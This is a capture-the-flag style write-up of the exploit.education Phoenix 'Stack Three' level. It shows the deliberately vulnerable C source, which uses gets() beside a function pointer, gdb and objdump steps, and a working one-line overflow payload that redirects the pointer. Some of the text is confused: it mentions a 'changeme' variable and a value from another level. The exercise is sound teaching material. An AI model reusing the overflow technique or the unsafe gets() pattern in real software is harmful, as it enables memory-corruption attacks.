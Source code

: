 ```yaml
---
description: 07/17/2023
---
```


# 3⃣ Stack Three

> Stack Three looks at overwriting function pointers stored on the stack.

#### Hints

* You can use `gdb` and `objdump` to determine where the `complete_level()` <mark style="color:yellow;">function</mark> <mark style="color:yellow;">is in memory</mark>.

## Source Code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our main goal is to find out where the `changeme()` variable is.

Once we locate it in memory, we need to change the value to: `0x0d0a090a`.

* `0x0d0a090a`
* `\x0a\x09\x0a\x0d`

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## GDB

```
gdb stack-three
```

Let's check out the disassembly for the `main()` function:

<figure><img src="../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's check out the disassembly for the `complete_level()` function:

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We can see that `0x000000000040069d` is the memory address for the stack base pointer (`rbp`) for our function.

Let's try and mess with the program a bit more and send it a long string:

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Interesting, we ended up receiving a segmentation fault, meaning our program attempted to write/access out of bounds memory and in return forcefully crashed our program to protect our system.

We ended up getting the message calling function pointer `0x585858`... and was curious to see what that looked like in the ASCII table:

Hex `58` is equivalent to char `X`. We can see this by doing `man ascii`:

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

So, if we go back and look at our `complete_level()` function, we need to get the program to call this so we can move on to the next level.

I also wanted to diversify with the tooling a little and decided to check out the same information in objdump as well. We can manually go through all of the disassembly without grepping for our function that we are looking for, but who wants to do that?

```
objdump -d stack-three | grep complete_level  
000000000040069d <complete_level>:
```

Take the following snippet of `main()`:

```c
int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
```

This is interesting ebcause we see our function pointer (`fp`) being set to `NULL`. `gets()` will take our input and store it within the 64-byte buffer (`buffer[64]`). And lastly in our `main()` function `locals.fp()` will be called to call whatever is stored in our function pointer (`fp`).

With that said, let's take the function pointer's address and convert it to little-endian and overwrite the buffer:

```
python -c 'print "X"*64 + "\x9d\x06\x40"' | ./stack-three
```

With our function pointer's address: `0x000000000040069d`, we take that and convert it to little-endian: `\x9d\x06\x40`, overwrite our 64-byte buffer that's specified within our structure, and send it to the binary, we're able to overwrite our function pointer!

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>
